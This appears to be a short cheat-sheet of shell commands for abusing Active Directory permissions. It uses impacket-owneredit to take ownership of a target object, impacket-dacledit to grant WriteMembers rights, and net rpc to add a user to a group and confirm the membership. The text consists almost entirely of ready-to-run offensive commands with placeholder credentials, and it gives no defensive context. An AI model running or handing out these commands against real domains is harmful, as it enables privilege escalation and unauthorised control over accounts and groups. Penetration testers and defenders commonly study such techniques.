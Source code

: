 
```bash
impacket-owneredit -action write -new-owner $USER \
-target-sid 'S-1-5-21-XX...' $DOMAIN/$USER:$PASS
```


# DACL edit

```bash
impacket-dacledit -action 'write' -rights 'WriteMembers'\
-principal $user -target-sid 'S-1-5-21-XX...' $domain/$user:$pass
```

# Add USER to  group
    
```bash
net rpc group addmem "Group_name" $user -U $domain/$user%$pass -S $ip
```

**_Note: There will be no output from this command, we need to instead verify it worked in the next command._**

```bash
net rpc group members "Group_name" -U $domain/$user%$pass -S $ip
```

